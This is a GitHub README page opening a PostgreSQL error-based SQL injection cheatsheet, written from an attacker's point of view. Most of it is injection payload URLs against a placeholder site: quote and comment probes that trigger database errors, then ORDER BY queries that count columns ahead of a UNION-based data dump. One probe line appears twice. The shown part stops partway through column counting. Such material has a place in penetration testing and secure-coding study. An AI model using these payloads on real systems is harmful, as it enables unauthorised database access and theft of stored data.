 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#postgresql-error-based-sql-injection-cheatsheet)

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the PostgreSQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#detecting-the-vulnerability)

`http://domain.com/index.php?id=1`  
Website loads normally

`http://domain.com/index.php?id=1'`  
Error shows up: pg_query(): `Query failed: ERROR: unterminated quoted string at or near...`

`http://domain.com/index.php?id=1\'`  
Error message shows up again

`http://domain.com/index.php?id=-1)'`  
Error message shows up again

`http://domain.com/index.php?id=1'--`  
Website might loads successfuly, but it might shows error also

`http://domain.com/index.php?id=1'--`  
Website might loads successfuly, but it might shows error also

`http://domain.com/index.php?id=1+--`  
Website might loads successfuly, but it might shows error also

## Retrieving information from database (UNION based query)

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#retrieving-information-from-database-union-based-query)

### Find the number of columns using 'ORDER BY' query

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#find-the-number-of-columns-using-order-by-query)

Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using **ORDER BY** query.

`http://domain.com/index.php?id=1' order by 1--`  
This query musn't shows up error, since there is no lower number than 1

- If the payload shows up error, try setting a negative value: `http://domain.com/index.php?id=-1' order by 1--`  
    This query musn't shows up error, since there is no lower number than 1
    
    - If the payload shows up error, try removing the quote which might cause SQL error:  
        `http://domain.com/index.php?id=1 order by 1--`  
        `http://domain.com/index.php?id=-1 order by 1--`  
        These both queries musn't shows up error.
        